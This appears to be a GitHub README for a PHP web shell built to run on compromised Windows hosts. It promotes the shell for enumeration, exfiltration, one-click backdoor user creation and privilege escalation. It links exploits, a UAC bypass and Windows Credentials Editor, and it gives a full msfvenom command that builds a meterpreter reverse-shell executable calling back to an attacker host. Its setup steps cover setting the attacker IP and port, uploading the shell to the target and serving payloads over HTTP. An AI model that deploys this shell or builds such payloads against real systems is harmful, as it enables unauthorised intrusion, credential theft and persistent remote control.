 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<p>Automates many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. Note that the tools in my quick upload function are not included in this repo as they are the work of other parties. Sources for quick upload files follow: <br>
Invoke-WScriptBypassUAC.ps1: https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-WScriptBypassUAC.ps1<br>
PsTools: https://download.sysinternals.com/files/PSTools.zip <br>
CVE-2015-1701 Priv Esc(aka Taihou.exe) https://github.com/hfiref0x/CVE-2015-1701<br>
JAWs Enum: https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1<br>
Netcat for windows: https://github.com/int0x33/nc.exe<br>
Trend Micro Ransomware file Decryptor: <a href="https://powerbox-na-file.trend.org/SFDC/DownloadFile_iv.php?jsonInfo=%7B%22Query%22%3A%22dR%2BBrNMzg9JJ%2BWXagmE3CFGo6KHZSCtPVPWbg7058IWvcyqFByPzp7Z4BbItLT0NsFzkgJ0M94o3bXOPZnUaMn8BheublSy8lx4KW0qoVEoOa5y7oXGHz2cEAVug61PrxdNc4ubF%2F0%2Fo%2F28ETVpeohg%2F1LXEe9WTr%2B226RTY1Fy5cDIFi3jpKceg6BphKyMuDSbSXylWRKdYIpWKpjVQ8C57t%2BsE56nvuvo6MQmfekk4oRgyS03nH6MaTefGu4nx%22%2C%22iv%22%3A%2259e1f948abd6a90359e13f2b04fa37a5%22%7D" target="_blank"> here </a><br> 
Windows Credentials Editor: https://gitlab.com/kalilinux/packages/wce (wce32,64, and universal)<br>
DRW Ransomware Decryptor: https://download2.easeus.com/installer_rss_new.php<br>
venom.exe : (sudo) msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKBOXIP> LPORT=<ATTACBOXPORT> -e x86/shikata_ga_nai -f exe -o venom.exe
</p>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Including:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>One click preset user creation (on compatible targets with sufficient privileges)</li>
<li>One click Priv Esc for preset user (on compatible targets with sufficient privileges)</li>
<li>One click user info/ user permissions info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Next, upload the nsscmdshell.php file to the target. Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target.  Once you've gained sufficient access to a target to upload the nsscmdshell, no further instruction on using this tool should be needed.  Do not open issues because you don't know how to use this tool.  It works.  Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error?  Two possible causes: 1).You didn't set the variables, "$attackip" and "$attackport" to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11. 2). The files are not available on the defined server or port, or there is no server running on the defined port. Fix: python3 -m http.server XXXX in a directory containing the files you're attempting to upload.</p>
